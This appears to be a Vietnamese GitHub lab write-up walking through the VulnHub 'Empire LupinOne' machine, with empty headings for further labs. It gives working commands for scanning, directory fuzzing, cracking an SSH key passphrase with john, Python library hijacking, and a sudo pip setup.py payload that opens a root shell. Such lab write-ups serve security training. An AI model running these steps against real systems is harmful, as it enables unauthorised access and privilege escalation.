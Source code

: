 # Lab
## I. EMPIRE LUPIN ONE

Nguồn hướng dẫn:[Đây](https://www.hackingarticles.in/empire-lupinone-vulnhub-walkthrough/)

1. Tìm kiếm mục tiêu, quét cổng

   Đầu tiên dùng netdiscover tool để khám phá mạng xung quanh, tìm địa chỉ IP mục tiêu:
   `netdiscover`
   
   Sau khi đã có IP máy mục tiêu, quét các cổng bằng Nmap tool:
   
   `nmap -sC -sV 192.168.1.4`
   
   ![image](https://github.com/tninh27/Lab/assets/105789492/f20bdbc8-360a-4bec-9106-99a9aafe3fee)
   
  Ta có:
  - cổng 22 có máy chủ SSH
  - cổng 80 có dịch vụ HTTP (Apache Server), một thư mục /~myfiles

2. Liệt kê

  Dùng trình duyệt xem folder /~myfiles:
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/3ed47e03-fa62-4b7a-86c6-f6f5b4dd5568)
  
  Thử xem bằng chế độ view-source:
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/28c2d911-58d7-49af-85fa-274503a15888)
  
  - Đã có gợi ý đầu tiên

  Dùng kỹ thuật Fuzzing với ffuf tool, xem các thư mục:
  
  `ffuf -c -w /usr/share/wordlists/wfuzz/webservices/ws-dirs.txt -u 'http://192.168.1.4/~FUZZ'`
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/ff4b2830-82c3-491a-9ee2-86627c65f0cf)
  
  - Tìm thấy thư mục bí ẩn secret, mở bằng trình duyệt:

  ![image](https://github.com/tninh27/Lab/assets/105789492/2ae6fe73-c722-41a7-a28f-4f746c62e0ec)
  
  - Gợi ý tên tài khoản đăng nhập là: icex64, khóa sshkey

  Để tìm khóa ssh  đó, tiếp tục sử dụng fuzzing với ffuf tool :
  
  `ffuf -c -ic -w /usr/share/wordlists/wfuzz/webservices/ws-dirs.txt -u 'http://192.168.1.4/~secret/.FUZZ' -fc 403 -e .txt,.html`
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/e03160b8-ab89-40bd-a163-86fe5112a5de)
  
  - Tìm thấy tệp bí mật secret.txt, mở bằng trình duyệt:

  ![image](https://github.com/tninh27/Lab/assets/105789492/7a80106b-63d8-4343-be97-13c76bc3b08f)

  - Tìm được 1 đoạn mã code base58, giải mã nó ta được khóa ssh sau

  ![image](https://github.com/tninh27/Lab/assets/105789492/e4ef6819-5fc8-42e3-a84b-b4b835f78e41)
  
  Tiến hành lưu trữ lại khóa tìm được này vào file *ssh*
  
3. Khai thác

  Dùng ssh2john, băm file *sshkey* vào file *hash* :
  
  `/usr/share/john/ssh2john.py sshkey > hash`
  
   Dùng john, bẻ khóa giá trị băm:
   
  `john --wordlist=/usr/share/wordlists/fasttrack.txt hash`
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/cc291c25-80fb-4c8e-ac2a-a7331c2005da)
  
  - Mật khẩu: P@55w0rd!

  Đăng nhập tài khoản *icex64* bằng khóa *sshkey* và mật khẩu vừa tìm được:
  
  `ssh -i sshkey icex64@192.168.1.4 `
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/4aea8796-5900-4f89-99cc-4a537defdc5a)
  
  Kiểm tra quyền:
  `sudo -l`
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/eaa6b75c-aa5b-4865-bb11-123451aecc52)
  
  - Tìm được người dùng arsense có thể khai thác bằng các chiếm thư viện python

  Xem nội dung file heist.py:
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/f854b90d-b81d-4f45-9a8d-a11ddd1eb19f)
  
4. Leo thang đặc quyền

  Tải Linpeas tool từ Github, cấp quyền thực thi cho nó: [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
  
  `wget https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS`
  
  `chmod +x ./linpeas.sh`
  
  Tiến hành chạy linpeas:
	`./linpeas.sh`
 
  ![image](https://github.com/tninh27/Lab/assets/105789492/12216f46-ebf6-4888-8983-66dea24c3530)
  
  - Tìm được đường dẫn thư mục thư viện python

  Dùng nano sửa file trên, thêm lệnh /bin/bash:
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/22d716ac-8a01-49ab-a8a5-c664d9cfdc70)
  
  Chuyển người dùng icex64 sang arsene:
  
  `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py `
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/f8f4b692-7a97-4faf-94ce-df9486abaf45)
  
  Kiểm tra quyền tài khoản arsene:
  `sudo -l `
  
  ![image](https://github.com/tninh27/Lab/assets/105789492/9b0646cf-cc53-4520-874d-88d289923f9f)
  
  - Thấy có quyền thực thi nhị phân pip mà không cần xác minh root, tiến hành leo thang đặc quyền:

  `TF=$(mktemp -d)
  echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
  sudo pip install $TF`

  ![image](https://github.com/tninh27/Lab/assets/105789492/055efa6f-b949-4888-9681-f32caf49769e)

  - Đã đăng nhập tài khoản root, xem file root.txt:

  ![image](https://github.com/tninh27/Lab/assets/105789492/0d60f705-2c87-4cd3-9c38-f556889ec9f0)

## II. Phineas

## III. Darkhole2

## IV. Darkhole2

## V. Prime1

















